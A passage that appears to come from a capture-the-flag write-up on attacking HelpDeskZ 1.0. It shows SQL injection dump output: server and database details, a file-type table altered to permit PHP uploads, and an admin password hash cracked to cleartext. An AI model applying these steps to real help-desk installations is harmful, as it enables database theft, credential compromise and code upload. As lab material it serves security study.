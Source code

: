 #### 4.1. SQLi dump

A) System info:
```
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL 5
current user:    'root@localhost'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] support
[*] sys
```

B) PHP files are now allowed (modified):
```
Database: support
Table: file_types
[4 entries]
+------+
| type |
+------+
| jpeg |
| jpg  |
| png  |
| txt  |
+------+
```
Note:
- function: `verifyAttachment()` checks for `$filetype`
```
https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/includes/functions.php#L125
```
- PHP files are allowed as default `(15, 'php', '0')`
```
https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/install/install.php#L209
```


C) Admin password hash:
```
Database: support
Table: staff
[1 entry]
+----------+------------------------------------------+--------+-------+--------------------+
| username | password                                 | status | admin | email              |
+----------+------------------------------------------+--------+-------+--------------------+
| admin    | d318f44739dced66793b1a603028133a76ae680e | Enable | 1     | support@mysite.com |
+----------+------------------------------------------+--------+-------+--------------------+
```

#### 4.2. Admin password (wrong path)

Password type is SHA1 w/o salting:
```
https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/install/install.php#L291
```

Clear text:
```
d318f44739dced66793b1a603028133a76ae680e:Welcome1
```

Login shows the following error:
```
"Invalid email address or password."
```
